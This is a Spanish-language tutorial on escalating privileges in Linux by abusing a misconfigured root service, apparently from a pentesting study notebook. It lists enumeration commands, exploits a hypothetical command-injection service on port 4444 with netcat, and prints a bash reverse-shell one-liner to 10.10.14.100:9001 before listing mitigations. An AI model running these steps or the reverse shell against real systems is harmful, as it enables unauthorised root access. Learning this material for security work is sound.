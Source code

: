 
---
# Abuso de servicios internos del sistema

> En los sistemas Linux, los **servicios internos** (o *daemons*) son componentes críticos que operan en segundo plano para gestionar funcionalidades esenciales como la red, impresión, monitoreo, actualizaciones o servicios personalizados. Sin embargo, si alguno de estos servicios está **mal configurado o corre con permisos elevados**, puede representar una **superficie de ataque significativa**.

Desde una perspectiva ofensiva, nuestro objetivo será **identificar un servicio vulnerable**, comprender su función, y posteriormente **determinar si puede ser abusado para escalar privilegios**.

## Enumeración de servicios activos

El primer paso consiste en detectar qué servicios están corriendo en el sistema. Podemos emplear varias herramientas:

```bash
ps aux | grep -v '\['
````

```bash
ss -tulnp
```

```bash
systemctl list-units --type=service
```

También podríamos usar herramientas como `linpeas.sh` o `lse.sh`, que enumeran servicios sospechosos de forma automática.

## Ejemplo práctico: Servicio vulnerable expuesto localmente

Supongamos que durante la enumeración encontramos el siguiente servicio corriendo:

```bash
tcp LISTEN 0 128 127.0.0.1:4444 0.0.0.0:* users:(("vuln_service",pid=1234,fd=3))
```

Al inspeccionarlo, observamos que se trata de un binario personalizado o script interno (`/usr/local/bin/vuln_service`) que **se ejecuta como root**.

## Análisis y explotación

Tras analizar el binario, identificamos que al recibir ciertos datos desde el puerto 4444, ejecuta comandos del sistema sin validación:

```c
system(client_input);
```

Esto representa una **vulnerabilidad crítica de ejecución remota** si conseguimos conectarnos al puerto y enviar comandos.

Usamos `nc` para probarlo:

```bash
nc 127.0.0.1 4444
id
```

Si obtenemos como salida:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

Entonces hemos logrado **ejecutar código como root** y podríamos, por ejemplo, abrir una reverse shell:

```bash
nc 127.0.0.1 4444
bash -i >& /dev/tcp/10.10.14.100/9001 0>&1
```

(Desde nuestro host estaríamos escuchando con `nc -lnvp 9001`)

## Mitigaciones

- Nunca ejecutar servicios personalizados como `root` si no es absolutamente necesario.
    
- Aplicar controles estrictos de entrada/salida en cualquier servicio que procese datos del usuario.
    
- Limitar la superficie de exposición de servicios (por ejemplo, usar `iptables` o `firewalld` para restringir accesos).
    
- Auditar los binarios ejecutables y revisar el uso de funciones peligrosas como `system()`, `exec*()`, etc.
    

## Conclusión

Hemos visto cómo un servicio mal configurado o vulnerable puede convertirse en una puerta de entrada directa para obtener privilegios elevados. Como ofensores, debemos desarrollar una mentalidad analítica para identificar estos vectores y explotarlos con precisión. Como defensores, es crucial implementar controles preventivos, restrictivos y de monitoreo para reducir el impacto de este tipo de vectores.

---
